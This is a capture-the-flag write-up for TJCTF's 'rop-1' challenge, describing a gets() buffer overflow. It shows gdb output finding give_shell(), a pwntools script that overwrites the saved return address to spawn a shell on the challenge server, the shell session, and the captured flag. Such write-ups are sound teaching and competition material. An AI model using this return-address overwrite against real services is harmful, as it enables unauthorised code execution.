 ### Solved by superkojiman

Simple overflow using gets. We need to redirect execution to give_shell(). We can find its address in gdb:

```
gdb-peda$ p give_shell
$1 = {<text variable, no debug info>} 0x8048505 <give_shell>
```


We can overwrite the saved return pointer in the name() function by sending 116 bytes. Pretty easy, so have it return to give_shell(): 

```python
#!/usr/bin/env python 
from pwn import *

give_shell = p32(0x8048505)

buf = ""
buf += "A"*112 + give_shell

r = remote("p.tjctf.org", 8094)
print r.recv()
r.send(buf + "\n");
r.interactive()
```

Let's grab that flag: 

```text
koji@pwnbox32:~/Desktop/rop-1$ ./sploit.py 
[+] Opening connection to p.tjctf.org on port 8094: Done
Enter your name 
[*] Switching to interactive mode
$ id
uid=1000(app) gid=1000(app) groups=1000(app)
$ ls
Dockerfile
etc
flag
prog
rop1
wrapper
$ cat flag
isnt_ret_a_nice_instruction
```

The flag is: isnt_ret_a_nice_instruction
